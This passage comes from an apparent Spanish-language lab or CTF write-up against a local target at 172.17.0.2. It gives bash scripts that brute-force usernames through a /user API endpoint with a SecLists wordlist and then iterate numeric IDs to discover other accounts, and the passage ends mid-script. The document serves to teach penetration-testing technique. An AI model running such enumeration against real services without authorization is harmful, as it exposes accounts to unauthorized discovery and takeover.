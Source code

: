 ```bash
trap ctrl_c INT

dicc="$1"

while read user;do
	echo "Checking $user"
	res=$(curl -s "http://172.17.0.2:12345/user/$user" | jq ".message")
	if [ "$res" != "\"User not found\"" ];then
		echo -e "Valid user--> ${greenColour}$user${endColour}\n"
		exit 0
	fi

done < $dicc
```

Como diccionario vamos a utilizar /SecLists/Usernames/xato-net-10-million-usernames.txt, el cual copiamos en nuestro directorio de trabajo como usernames.

```bash
chmod +x enum.sh
./enum.sh usernames
```

Tras un rato, encontramos como usuario --> **007**

Ahora probamos este usuario en **/user**  y obtenemos el username george.

![user_george](screenshots/user_george.png)

Por lo tanto, teniendo este username vamos a enviar la petición a /login.

![login_george](screenshots/login_george.png)

Podemos ver como se registra correctamente pero sólo recibimos su id.

Así que vamos a probar diferentes id en el endpoint /user para ver si podemos descubrir otros usuarios.

```bash
#!/bin/bash

# Colour
redColour="\e[0;31m\033[1m"
endColour="\033[0m\e[0m"

function ctrl_c(){
	echo -e "\n${redColour}[!]Aborting...${endColour}"
	exit 1
}

# Ctrl+c
trap ctrl_c INT 

for i in {0..100};do
	res=$(curl -s "http://172.17.0.2:12345/user/$i" | jq ".username")
```